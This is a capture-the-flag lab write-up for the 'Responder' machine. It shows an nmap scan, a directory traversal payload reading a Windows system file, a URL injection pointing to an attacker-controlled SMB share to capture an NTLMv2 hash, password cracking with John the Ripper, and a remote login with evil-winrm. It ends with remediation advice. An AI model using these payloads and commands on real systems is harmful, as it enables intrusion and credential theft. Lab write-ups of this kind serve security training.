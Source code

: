 ## General Information
- Machine: Responder
- Difficulty: Very easy
- OS: Windows
- Date: 03/03/2023


## Methodology
- Reconnaissance:
    - Identification of the target machine's IP address: 10.129.129.156
    - Verification of the running services on the machine through port scanning.
- Exploration:
    - Analysis of the website http://unika.htb/ and identification of a parameter in the URL that allowed loading different versions of the web page.
    - Injection of a parameter to access specific files, exploiting a directory traversal vulnerability.
    - Use of Responder to capture an NTLMv2-SSP authentication hash.
    - Utilization of John the Ripper to crack the password corresponding to the hash and discover the password of the "Administrator" user.
    - Remote access to the machine using Evil-WinRM with the credentials of the "Administrator" user.
- Results Analysis:
    - Documentation of findings, identification of vulnerabilities, and recommendations for remediation.


## Results
After identifying the parameter, open ports and available services on the server were identified. The DNS address was manually resolved and the URL parameter was exploited through injection. Using responder, a hash was obtained and with the use of john, the password for the hash was cracked. The password "badminton" was discovered for the user "Administrator". Next, it was possible to access the machine remotely using evil-winRM and from there, explore the machine to find the flag.


### Reconnaissance
- IP: 10.129.129.156
- web server version: 64-bit Windows
- Port Scan results:

| port     | State | Service | Version |
|----------|-------|---------|------   | 
| 80/tcp   | open  | http    | Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1) |
| 5985/tcp | open  | http    | syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) |


### Commands and analyzes used

#### Nmap
~~~nmap
nmap -sVC -T4 -p- -vv -Pn -oA ./fullscan 10.129.129.156
~~~

#### Resolver 10.129.129.156 unika.htb
~~~
/etc/hosts  10.129.129.156 unika.htb
~~~

#### Parameter analysis
During the analysis of the website http://unika.htb/, a parameter was found in the URL that loads different language versions of the web page. The parameter found was "page", which receives as a value the name of the corresponding HTML file for the desired language. For example, the URL http://unika.htb/index.php?page=french.html would load the French version of the page.
~~~
http://unika.htb/index.php?page=french.html
~~~

#### Injection
~~~
http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
~~~

#### Responder
http://unika.htb/index.php?page=//10.10.15.218/testShare
~~~ responder
responder -I tun0
~~~

#### John the Ripper
~~~John
john -w=/usr/share/wordlists/rockyou.txt hash 
~~~

#### evil-winrm
~~~evil-winrm
evil-winrm -i 10.129.129.156 -u administrator -p badminton
~~~


## Recommendations
- Secure the Apache httpd web server by implementing best practices for configuration and applying necessary security updates.
- Implement proper input validation and sanitization mechanisms in the web application to prevent directory traversal attacks and unauthorized access.
- Enforce strong password policies, including complexity requirements and regular password changes, to protect against password-based attacks.
- Review and enhance access controls to ensure only authorized users have appropriate access privileges to critical resources.
